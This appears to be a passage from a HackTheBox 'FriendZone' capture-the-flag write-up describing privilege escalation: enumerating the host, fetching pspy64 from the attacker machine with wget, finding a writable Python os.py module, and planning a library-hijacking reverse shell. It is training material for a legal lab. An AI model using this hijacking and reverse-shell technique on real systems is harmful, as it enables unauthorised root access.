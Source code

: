 
## Friend


At first I checked for any `sudo` permissions but there is none for the `friend` user. 


Then I listed open ports on the system using `netstat -lnt`, to see if there are any services running on the localhost. There are a couple but they are not super meaningful, mostly related to dns. 


So I decided to get back to this `reporter.py` script. Specifically, I wanted to see how it's being executed. For this I used using [pspy64](https://github.com/DominicBreuker/pspy).


I host the script using a python server with:

```bash
python3 -m https.server 80
```

And I download the file from the target using:

```bash
wget http://10.10.14.101/pspy64 && chmod +x pspy64
```

Here is the task:

![task-46](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/task-46.png)


We know that we don't have write access to the `/opt/server_admin` directory. But if we check the permissions to the python `os` module we will find that it's writable:

```bash
cd /usr/lib/python2.7/
find -type f -writable -ls
```

![writable-47](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/writable-47.png)


This is a Python [libarary hijacking vulnerability](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/). 


If we had write permissions to the `/opt/serve_admin` direcotry we could have craeted a `os.py` of our own, which would have been loaded before the legitimate one, but we don't have write access. 


What we can do instead, is edit the actual `os.py` module, and at the end, add a reverse shell back to our machine.
